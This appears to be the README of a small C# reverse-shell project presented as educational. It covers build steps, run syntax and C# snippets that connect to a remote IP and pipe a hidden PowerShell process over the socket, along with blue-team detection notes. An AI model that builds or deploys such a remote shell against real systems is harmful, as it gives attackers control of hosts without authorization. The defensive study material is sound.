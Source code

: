 # RShell (C# — Educational Reverse Shell)

RShell is a minimal reverse shell written in **C#**.  
It exists **strictly for educational and defensive research**—to study .NET networking, process I/O redirection, and blue-team detection strategies in a controlled lab.

---

## ⚖️ Legal & Ethical Use

**Authorized use only.** This project is provided to:
- Learn how reverse shells function at a code level.
- Run controlled, consented, and documented tests in your **own** lab.
- Improve defensive detections and incident response.

**You must not** use this software to access systems without explicit written permission.  

By using, copying, or modifying this code, **you agree** that:
- You have legal authorization to run any tests you perform.
- You accept full responsibility for outcomes and compliance with all applicable laws and policies.
- The authors and contributors are **not liable** for misuse, damage, or legal consequences.

---

## 🛠️ Build Instructions

### Option A — Visual Studio
1. Create a new **Console App** (C#).
2. Replace the default `Program.cs` with the one in this repository.
3. Build in **Release** mode.

### Option B — .NET SDK (CLI)
If you prefer SDK-style:

```bash
dotnet new console -n RShell
# Copy your Program.cs over the generated one
dotnet build -c Release RShell
Option C — CSC (C# compiler)
If the .NET compiler is available on PATH:

bash
Copy code
csc src\\Program.cs -out:RShell.exe
If you change the PowerShell path or add cross-platform support, document those changes in this README.

▶️ Runtime Parameters
The program expects two arguments:

bash
Copy code
RShell.exe <ip> <port>
<ip> : Destination IP (string)

<port> : Destination port (integer)

⚠️ Note: This is for lab use only in environments you own/control and are authorized to test.
Do not point this at networks or hosts without written consent.

🔍 Code Walkthrough
Key elements in Program.cs:

Networking:

csharp
Copy code
TcpClient client = new TcpClient();
client.Connect(ip, port);
Streams:
Wraps the network stream with StreamReader/StreamWriter for line-oriented I/O.

Process:
Launches PowerShell via ProcessStartInfo with:

csharp
Copy code
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardError = true;
p.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
Event Handlers:
Subscribes to OutputDataReceived / ErrorDataReceived to forward output lines back over the socket.

Loop:
Reads remote lines and writes them to:

csharp
Copy code
p.StandardInput.WriteLine(userInput);
🧪 Safe Lab & Testing Guidance (High-Level)
To keep this ethical and safe:

Isolate your lab. Use local VMs or containers on a closed network with no internet egress.

Document consent. If collaborating, get written permission (scope, dates, systems, data handling).

Least privilege. Use non-admin test accounts and non-production systems/data.

Observe & learn. Pair runs with monitoring (process creation logs, PowerShell logging, network telemetry).

No operationalization. This README does not include listener setup or exploitation steps.

🛡️ Blue-Team Notes (Defensive Study)
When running in a lab, explore how the following controls observe activity:

PowerShell Logging: Script Block, Module, and Transcription logging

AMSI (Antimalware Scan Interface): Scans PowerShell content before execution

Process Creation Events: Windows Event ID 4688 / Sysmon Event ID 1

Network Telemetry: Egress connections, unusual destinations/ports

Command-line Auditing: Visibility into -ExecutionPolicy Bypass usage

Questions to ask in your lab:

Which alerts fire?

What telemetry is missing?

How could defenders detect similar behavior earlier?

⚙️ Configuration Ideas (for Learning)
If you extend the project (in your lab), consider adding:

Configurable PowerShell path for different Windows versions

Timeouts/Retries for connections

Graceful Exit signals to close the child process cleanly

Optional local logging (lab only) for troubleshooting

Authentication/TLS (lab only) to explore secure communication

⚠️ Do not add evasion features or anti-forensic behavior. Such contributions will be rejected.

🚫 Known Limitations
Windows-only (hardcoded PowerShell path)

No encryption/authentication on the TCP channel

Minimal error handling

No reconnection logic or persistence (by design)

Requires interactive remote input (no job control)

❓ FAQ
Q: Why omit listener/exploitation instructions?
A: To avoid misuse. This project is for understanding code paths and defensive visibility, not for exploitation.

Q: Can I change -ExecutionPolicy Bypass?
A: Yes — this is just for lab use. Try stricter settings and study logs.

Q: Will you accept PRs adding stealth/evasion?
A: No. Only educational or defensive improvements are accepted.

🤝 Contributing
Keep changes educational and defense-oriented.

Do not submit features meant to bypass security controls.

Include documentation and rationales in PRs.

🔐 Disclosure & Safety Policy
If you discover a security issue in this repository:

Do not post it publicly.

Open a private report (via GitHub Security Advisory, if available).

Or contact the maintainer by email.

For real-world vulnerabilities elsewhere, follow responsible disclosure with the affected vendor.

📄 License (MIT)
vbnet
Copy code
Copyright (c) 2025

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in
all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, express or
implied, including but not limited to the warranties of merchantability,
fitness for a particular purpose and noninfringement. In no event shall the
authors or copyright holders be liable for any claim, damages or other
liability, whether in an action of contract, tort or otherwise, arising from,
out of or in connection with the Software or the use or other dealings in the
Software.
